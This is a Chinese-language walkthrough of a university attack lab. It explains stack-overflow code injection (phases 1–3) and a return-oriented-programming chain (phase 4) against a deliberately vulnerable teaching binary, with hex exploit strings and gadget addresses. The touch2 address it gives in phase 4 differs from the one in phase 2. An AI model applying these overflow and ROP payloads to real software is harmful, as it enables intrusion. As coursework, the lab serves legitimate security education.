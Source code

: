 此lab有有5个phase，phase1到phase3考查如何利用栈溢出发起代码注入攻击，phase4至phase5考查更高级的ROP（Return-Oriented Programming）攻击。

### Phase 1

要求在getbuf函数后不返回到test函数中，而是跳转到指定的touch1函数执行。显然需要将栈中保存的返回地址覆盖成touch1函数的地址。查看反汇编代码可知，为getbuf分配了40字节的栈空间，那么需要注入的字符串为40字节的随机字符加8字节的touch1函数的首地址。

### phase 2 

相比于phase1，phase2要求额外传递参数cookie给攻击函数touch2。解决方法是使用两次跳转。在getbuf返回时跳转到注入字符串的开始位置（0x5561dc78）。此位置放置两条指令，第一条指令`movq $0x59b997fa,%rdi` 将cookie放入`rdi`寄存器中，完成传参; 第二条指令`ret` 完成第二次跳转，跳转到touch2的首地址（0x4017f0）。最终的注入字符串用按字节十六进制表示如下：

```asm
48 c7 c7 fa 97 b9 59     # movq    $0x59b997fa,%rdi
c3                       # ret
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00  #注入字符串的首地址,即movq    $0x59b997fa,%rdi指令所在位置。此内容将覆盖原来的返回地址
f0 17 40 00 00 00 00 00  #touch2函数的首地址

```



### Phase 3

phase3要求传入字符串，并且不能将字符串放在原来getbuf的栈空间。解决方法与phase2类似，不同之处在于传递给`rdi`的是字符串的首地址。

```asm
48 c7 c7 a8 dc 61 55     # mov  $0x5561dca8,%rdi  0x5561dca8是字符串的首地址
68 fa 18 40 00           # push $0x4018fa         0x4018fa是touch3的首地址
c3                       # ret
00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00  #注入字符串的首地址,即mov  $0x5561dca8,%rdi指令所在位置。此内容将覆盖原来的返回地址
35 39 62 39 39 37 66 61  #字符串，即`59b997fa`
00 00 00 00 00 00 00 00
```

### Phase4

实施代码注入攻击有两个条件：知道栈的位置以及可以执行栈中的注入的代码。现代计算机可以通过栈随机和限制可执代码的区域策略来破坏这两个条件。聪明的黑客发明了ROP攻击来绕过这两个限制，达到一样的攻击效果。基本思想是，不注入自己的代码，而是执行一系列己存在的代码片段（gadget）。

phase4要求实现和phase2相同的功能，但是要使用ROP。我们可以从用户代码中找到以下两个gadget:

```asm
#gadget1首地址为0x4019ab
popq %rax    #将栈中己存储的cookie,即0x59b997fa,弹到rax
nop          #空指令
ret

#gadget2首地址为0x4019c5
movq %rax, %rdi   #将rax的内容复制给rdi,完成传参
nop
ret
```

接下来需要构造一个注入字符串，实现`getbuf->gadget1->gadget2->touch2`的调用链。注入字符串按字节十六进制表示如下：

```asm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00   #gadget1地址，getbuf返回时使用
fa 97 b9 59 00 00 00 00   #cookie,将弹到rax
c5 19 40 00 00 00 00 00   #gadget2地址，gadget1的ret指令使用
ec 17 40 00 00 00 00 00   #touch2f地址，gadget2的ret指令使用
```

